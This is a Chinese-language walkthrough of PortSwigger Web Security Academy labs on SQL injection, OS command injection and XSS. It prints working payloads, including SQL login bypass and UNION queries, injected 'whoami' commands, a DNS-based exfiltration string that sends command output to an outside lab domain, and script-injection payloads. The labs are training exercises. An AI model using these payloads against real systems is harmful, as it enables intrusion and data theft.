

# PortSwigger


## 服务端主题

### SQL注入

#### Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

给了提示了，出现漏洞的查询语句如下：

```
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

当然拿到一个网站，理所应当先逛一圈


直接注释掉后面的`released=1`即可，使其成为下面语句

```
SELECT * FROM products WHERE category = 'Gifts'#' AND released = 1
```

```
SELECT * FROM products WHERE category = 'Gifts' or 1=1#' AND released = 1
```


题目现在要求显示一个或者多个未发布的商品，故本题查询语句应如下：

```
SELECT * FROM products WHERE category = 'Gifts'+OR+1=1--'  AND released = 1
```

```
SELECT * FROM products WHERE category = '123'+OR+1=1--'  AND released = 1
```


提示 `Congratulations！`


#### Lab: SQL injection vulnerability allowing login bypass

就是免密码登录`administrator`账户

直接即可：

```
administrator'--
```

输入后形成的语句如下：

```
SELECT * FROM users WHERE username = 'administrator'--' AND password = ''
```

将后面的password给注释掉，从而免密码登录。


然后密码随意填写，就可以完成本实验


提示 `Congratulations！`


#### Lab: SQL injection attack, querying the database type and version on Oracle

一般都是MySQL，现在要求查询Oracle上的数据库类型和版本

知识点：

Oracle数据库内置dual表


```
'+UNION+SELECT+'abc','def'+FROM+dual--
```


```
'+UNION+SELECT+BANNER,+NULL+FROM+v$version--
```


题目进行查询

```
/filter?category=
```


可以看到就是显示了两列

接下来就查询版本号:


查询结果如下：


提示 `Congratulations！`


#### Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft

MySQL查看版本号就回到了熟悉的地方

```
' UNION SELECT @@version#
```


查询列数

```
'+UNION+SELECT+'abc','def'#
```

进行查询版本号

```
'+UNION+SELECT+@@version#
```


还是像上一道题一样

```
/filter?category='+UNION+SELECT+@@version#
```


提示 `Congratulations！`

### 命令注入（command injection）

#### Lab: OS command injection, simple case

点进去随便点一个商品进行`Check stock`按钮

然后进行抓包发送到`Repeater`，并且修改Post请求包中的内容

```
productId=1&storeId=1;whoami
```


提示 `Congratulations！`


#### Lab: Blind OS command injection with time delays

进去逛一圈发现就只有`Submit feedback`可以用，进去随意填写符合格式的东西，进行抓包


根据实验室前的提示，我们要使用ping使其延时10s

下面两种方式都可以，但要求在email里面加

```
||ping -c 10 127.0.0.1||
```

```
;ping -c 10 127.0.0.1;
```

抓包丢到`Repeater`


可以看到服务端等待了10s才将返回报文送过来

提示`Congratulations！`


#### Lab: Blind OS command injection with output redirection

重定向构筑shell命令，然后读取写入的文件内容就可以完成注入了，本题要求使用`whoami`来进行测试

写入的文件夹位于：

```
/var/www/images/
```

还是`Submit feedback`

丢到`Repeater`

 改参数尝试

```
||whoami>/var/www/images/shell.txt||
```


然后将默认关闭的Images选项给勾选上！


可以观察到刷新`Home`页面的时候有`resources`的获取，直接抓包观察API即可，修改获取的文件为`shell.txt`


提示 `Congratulations！`


#### Lab: Blind OS command injection with out-of-band interaction(本实验使用专业版才能完成)

也是盲操作，但是有反馈

目标就是注入漏洞发出DNS查找即可


使用`nslookup`来对指定域名进行DNS查找，更改为自己的实验室的子域名即可：

```
;nslookup 0a96007e04bddc8f878431c100360065.web-security-academy.net;
```


此时就要使用专业版的功能，点击最左上角的Burp


可以发现有个方便的`Burp Collaborator client[Pro version only]`，发挥自己的本领吧！




such like this

提示 `Congratulations！`


#### Lab: Blind OS command injection with out-of-band data exfiltration(本实验需要专业版才能完成)

请执行`whoami`命令并通过 DNS 查询将输出泄露给 Burp Collaborator。您需要输入当前用户的名称才能完成实验。


因为实验室被严格限制了，防火墙会阻止实验室与任意外部系统之间的交互。要解决实验室问题，您必须使用 Burp Collaborator 的默认公共服务器。


这里直接贴答案

```
email=||nslookup+`whoami`.0a96007e04bddc8f878431c100360065.web-security-academy.net||
```


意思就是服务端不知道whoami这个域名对应的ip，从而向上查询，然后执行该注入命令。


提示 `Congratulations！`


## 客户端主题

### 跨站脚本攻击（XSS）

#### Lab: Reflected XSS into HTML context with nothing encoded

目的：构造payload成功alert出来

输入框中输入：

```
<script>alert(1)</script>
```

点击提交Search即可


提示 `Congratulations！`


#### Lab: Stored XSS into HTML context with nothing encoded

目的：还是alert

payload都是一样的

```
<script>alert(1)</script>
```


随便点一个 `View post`,往下拉

可以看到评论的东西，直接在`Comment`框中输入`payload`，其余随意填写即可。


点击`Post Comment`按钮即可


提示 `Congratulations！`


#### Lab: DOM XSS in `document.write` sink using source `location.search`

目的：还是一样，只不过是DOM型的`alert`


先尝试一下，网页中的DOM树哪里进行了修改

```
<script>alert(1)</script>
```

可以看到被h1所包围住了

```
<h1>0 search results for '&lt;script&gt;alert(1)&lt;/script&gt;'</h1>
```


所以先尝试构造把标签闭合了

```
</h1><script>alert(1)</script><h1>
```

提交后发现不太行，F12找到`document.write`的script代码


发现他是搜索然后闭合成一个img

所以直接构造payload：

```
"><script>alert(1)</script>
```

点击`Search`按钮


提示 `Congratulations！`


#### Lab: DOM XSS in `innerHTML` sink using source `location.search`

目的还是一样alert出来

```
<script>alert(1)</script>
```

依旧先进行尝试，然后`F12`查看DOM情况


可以发现script脚本`inner`了进去，但是不会进行触发，所以更换其他xss方式，构造payload如下：

```

```

上述payload的意思是加载一个图片，图片路径是`1`，要是图片不存在就触发`onerror`中的内容，也就是`alert(1)`


当然使用button也是可以的

```
<button onclick=alert(1) >xss</button>
```


提示 `Congratulations！`


#### Lab: DOM XSS in jQuery anchor `href` attribute sink using `location.search` source

利用`jQuery`库中的`$`选择器函数来查找锚点元素


点击`Submit feedback`页面，然后看到链接内容如下：

```
https://0a60003e03e93e16807f08ae0003008c.web-security-academy.net/feedback?returnPath=/
```

将其`returnPath`更改为`1111111111111111`，按下回车键，然后F12查找即可


可以发现它直接将内容写入了`a`标签的`href`中，那就直接构造`payload`：

```
https://0a60003e03e93e16807f08ae0003008c.web-security-academy.net/feedback?returnPath=javascript:alert(1)
```


提示 `Congratulations！`


#### Lab: DOM XSS in jQuery selector sink using a hashchange event

目的：print

使用 jQuery 的`$()`选择器函数自动滚动到给定的帖子


随意提交信息，发现没有什么用，网页拉到最上，发现有一个`exploit server`提供给我们使用


`F12`发现网页处理逻辑：


```
https://0a0000ad03360645801c4979004f004f.web-security-academy.net/#%3Cimg%20src=x%20onerror=print()%3E
```


然后在`exploit server`中的Body添加如下内容，点击`Store`

```
<iframe src="https://0a0000ad03360645801c4979004f004f.web-security-academy.net/#" onload="this.src+=''" hidden="hidden"></iframe>
```


点击`Deliver exploit to victim`按钮


然后提示 `Congratulations！`


#### Lab: Reflected XSS into attribute with angle brackets HTML-encoded

目的：alert


## 高级主题